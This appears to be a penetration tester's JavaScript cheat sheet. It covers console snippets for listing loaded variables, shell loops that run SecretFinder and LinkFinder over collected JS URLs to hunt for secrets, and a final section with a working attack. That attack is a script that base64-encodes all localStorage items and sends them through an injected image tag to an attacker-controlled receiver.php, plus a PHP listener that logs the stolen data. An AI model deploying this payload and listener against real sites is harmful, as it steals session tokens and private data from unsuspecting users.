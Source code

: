 # All Stuff JS
## Debugging
To list all currently loaded JavaScript variables in the browsers console:   
```
for(var b in window) {
if(window.hasOwnProperty(b)) console.log(b);
}
```
Another method with more output:   
```
var n, arg, name;
console.log("typeof this = " + typeof this);
for (name in this) {
    console.log("this[" + name + "]=" + this[name]);
}
for (n = 0; n < arguments.length; ++n) {
    arg = arguments[n];
    console.log("typeof arguments[" + n + "] = " + typeof arg);
    for (name in arg) {
        console.log("arguments[" + n + "][" + name + "]=" + arg[name]);
    }
}
``` 

## Searching for low hanging fruits
### Secretfinder
`$ for url in $(cat /root/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -o cli; done`   
Using a proxy:   
`$ for url in $(cat /home/kali/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -p http://localhost:8080 -o cli; done`    

### Linkfinder
`# for url in $(cat /root/Desktop/urls_js.txt); do python3 linkfinder.py -i $url -o cli; done`   

## Sending Local Storage Items to Remote Server
### JavaScript (client) 
```
newString = "";
for (var a in localStorage) {
    newString += a + "="
    newString += localStorage[a];
    // Encode the String with base64
    var encodedString = btoa(unescape(encodeURIComponent(newString)))
    document.write('<img src="https://10.10.10.10/attackerswebapp/receiver.php?str='+encodedString+'">');
    newString = "";
}
```
### PHP listener (server)
```
<?php
$encodedstr = $_GET["str"];
$file = fopen('log.txt', 'a');
$string = base64_decode($encodedstr);
fwrite($file, $string . "\n\n");
?>
```
